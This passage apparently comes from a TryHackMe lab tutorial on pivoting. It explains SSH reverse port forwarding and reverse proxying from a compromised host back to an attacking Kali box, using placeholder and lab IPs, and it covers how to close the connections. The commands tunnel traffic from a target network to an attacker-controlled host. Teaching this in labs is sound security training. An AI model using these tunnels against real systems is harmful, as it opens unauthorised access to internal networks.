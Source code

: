 If the status command indicates that the server is not running then you can start the ssh service with:  
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:  
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN   `

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:  
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN   `

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._  

---

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:

![Highlighting the process id of the ssh proxy/port forward](https://assets.tryhackme.com/additional/wreath-network/daf8fd5c8540.png)

Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type `sudo kill PID` to close the connection:

![Killing the connection, demonstrating that the connection is now terminated](https://assets.tryhackme.com/additional/wreath-network/dc4393e7991e.png)

